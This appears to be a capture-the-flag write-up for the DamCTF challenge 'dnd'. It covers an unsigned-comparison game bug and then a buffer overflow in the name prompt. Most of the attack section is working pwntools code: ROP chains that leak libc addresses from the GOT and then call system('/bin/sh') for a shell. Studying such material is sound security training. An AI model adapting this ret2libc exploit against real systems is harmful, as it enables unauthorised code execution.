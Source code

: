 # pwn/dnd
by captainGeech

150 solves / 404 points

> Dungeons and Dragons is fun, but this is DamCTF! Come play our version
> 
> `nc dnd.chals.damctf.xyz 30813`
>
> [dnd.zip](dnd.zip)
> 

## Overview
This challenge is a pwn ret2libc via buffer overflow challenge, preluded by a simple game with an improper cast bug.

## Writeup

This is what the zip file contains:

```plaintext
dnd.zip
├── dnd
├── ld-linux-x86-64.so.2
└── libc.so.6
```

The `dnd` binary is a 64-bit ELF file. It is a simple game where you choose whether to fight or avoid an enemy, collecting points along the way. 

```
##### Welcome to the DamCTF and Dragons (DnD) simulator #####
Can you survive all 5 rounds?

>>> Round 1
Points: 0 | Health: 10 | Attack: 5
New enemy! You are now facing off against: Skittershank the Gremlin (2 health, 1 damage)
Do you want to [a]ttack or [r]un? 
```

Interestingly, sometimes after a fight, points can become a negative integer. If the game ends with the points in the negative, the game thinks you've won. 

```cpp
bool Game::DidWin() {
  return 99 < points; // unsigned comparison
}
```

Running instead of attacking will not change your points, so the main win tactic is simply to attack until points become negative, and then running away at all subsequent rounds.

Upon winning, the game asks for your name and fails to prevent a buffer overflow:

```
Congratulations! Minstrals will sing of your triumphs for millenia to come.
What is your name, fierce warrior? 
```

```cpp
void win() {
  char warrior_name [32];
  std::cout << "Congratulations! Minstrals will sing of your triumphs for millenia to co me." << std::endl;
  std::cout << "What is your name, fierce warrior? ";

  fgets(warrior_name, 256, stdin); // <- buffer overflow

  // ...
}
```

PIE and canaries are disabled in the binary

```
>>> from pwn import *
>>> elf = ELF('dnd')
[*] 'dnd'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found   # !
    NX:         NX enabled
    PIE:        No PIE (0x400000) # !
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

But no functions in `dnd` call any interesting functions, but since it uses `libc.so.6`, we can use ret2libc to get a shell.

> My most useful resource in executing this is RazviOverflow's video
> 
> [![Exploiting Return to Libc (ret2libc) tutorial - pwn109 - PWN101 | TryHackMe](docs-img/ret2libc-vid.jpg)](https://www.youtube.com/watch?v=TTCz3kMutSs)

### ret2libc

The end goal is to call `system("/bin/sh")`.

First, the two ROP gadgets used were found using ROPgadget:

```
0x0000000000402640 : pop rdi ; nop ; pop rbp ; ret
0x000000000040201a : ret
```

With RDI control, we invoke `puts` to leak the address of libc functions from the global offset table (GOT) imported in `dnd`, namely `fgets`, `puts`, and `rand`—leaking several addresses lets us crosscheck leaked results.

```python
elf = ELF('./dnd')

pop_rdi_pop_rbp_ret = p64(0x0000000000402640) # pop rdi ; nop ; pop rbp ; ret
ret = p64(0x000000000040201a) # ret

plt_puts_addr = p64(elf.plt.puts)
got_puts_addr = p64(elf.got.puts)
got_fgets_addr = p64(elf.got.fgets)
got_rand_addr = p64(elf.got.rand)
main_fn_addr = p64(0x00402988)

dummy_rbp = b'B' * 8

payload = flat(
    b'A' * 0x68,
    pop_rdi_pop_rbp_ret + got_puts_addr + dummy_rbp + plt_puts_addr,
    pop_rdi_pop_rbp_ret + got_fgets_addr + dummy_rbp + plt_puts_addr,
    pop_rdi_pop_rbp_ret + got_rand_addr + dummy_rbp + plt_puts_addr,
    main_fn_addr, # call main() again for later
    b'\0',
)

shell.sendline(payload) # GO

shell.recvuntil(b'A' * 32) # consume warrior name
output = shell.recvuntil(b'##### Welcome to the DamCTF and Dragons').split(b'\n')

leaked_puts_addr = u64(output[1].ljust(8, b'\x00'))
leaked_fgets_addr = u64(output[2].ljust(8, b'\x00'))
leaked_rand_addr = u64(output[3].ljust(8, b'\x00'))
```

Oddly, the address for `puts` is mangled, so we rely on `fgets` and `rand`. Their addresses are compared with the libc file provided in the zip file, and the offsets are calculated. 

```python
libc = ELF('./libc.so.6')
libc_base = leaked_fgets_addr - libc.symbols['fgets']

system_addr = libc_base + libc.symbols['system']
fgets_addr = libc_base + libc.symbols['fgets']
rand_addr = libc_base + libc.symbols['rand']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh\x00'))

print('Got dynamic addresses:')
print(f' - system: {hex(system_addr)}')
print(f' - fgets: {hex(fgets_addr)}')
print(f' - rand: {hex(rand_addr)}')
print(f' - bin_sh: {hex(bin_sh_addr)}')
print(f' - offset: {libc_base}')
```

With the final addresses to call `system("/bin/sh")`, we can build the final payload and send it without restarting the connection and reshuffling the libc address randomization, which we can do because we had previously made `dnd` return to `main()` to play the game again. 

A `ret` instruction is added to align the stack (the number of `ret`s is determined by trial and error). 

```python
payload = flat(
    b'A' * 0x68,
    ret, # align stack
    pop_rdi_pop_rbp_ret + p64(bin_sh_addr) + dummy_rbp + p64(system_addr),
    b'\0',
)

shell.sendline(payload)
shell.interactive()
```

Voila!

```
dam{w0w_th0s3_sc4ry_m0nster5_are_w3ak}
```

The full exploit is in `solve.py`.
